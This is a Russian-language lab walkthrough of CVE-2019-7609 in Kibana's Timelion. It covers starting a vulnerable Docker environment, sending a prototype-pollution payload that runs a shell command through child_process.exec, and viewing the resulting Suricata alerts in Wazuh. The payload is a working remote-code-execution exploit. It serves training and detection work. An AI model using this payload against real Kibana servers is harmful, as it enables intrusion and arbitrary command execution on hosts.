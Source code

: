 # CVE-2019-7609

### Материалы:

* [https://www.opencve.io/cve/CVE-2019-7609](https://www.opencve.io/cve/CVE-2019-7609)
* [https://nvd.nist.gov/vuln/detail/cve-2019-7609](https://nvd.nist.gov/vuln/detail/cve-2019-7609)

Kibana — это панель визуализации данных для Elasticsearch с открытым исходным кодом.

Версии Kibana до 5.6.15 и 6.6.1 содержат ошибку выполнения произвольного кода в визуализаторе Timelion. Злоумышленник, имеющий доступ к приложению Timelion, может отправить запрос, который попытается выполнить JavaScript код. Благодаря этому злоумышленник может выполнять произвольные команды на хосте.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/kibana/CVE-2018-7609

Перед запуском уязвимой среды выполните команду sudo sysctl -w vm.max\_map\_count=262145

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5601/ будет доступна панель Kibana

<figure><img src="../../.gitbook/assets/cve-2019-7609(1).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости нужно перейти в визуализатор Timelion и отправить соответсвующую полезную нагрузку:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

<figure><img src="../../.gitbook/assets/cve-2019-7609(2).png" alt=""><figcaption></figcaption></figure>

После этого перейдите во вкладку Canvas, чтобы выполнилась команда /bin/touch /tmp/success

<figure><img src="../../.gitbook/assets/cve-2019-7609(3).png" alt=""><figcaption></figcaption></figure>

После этого на хосте был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/cve-2019-7609(4).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2019-7609(5).png" alt=""><figcaption></figcaption></figure>
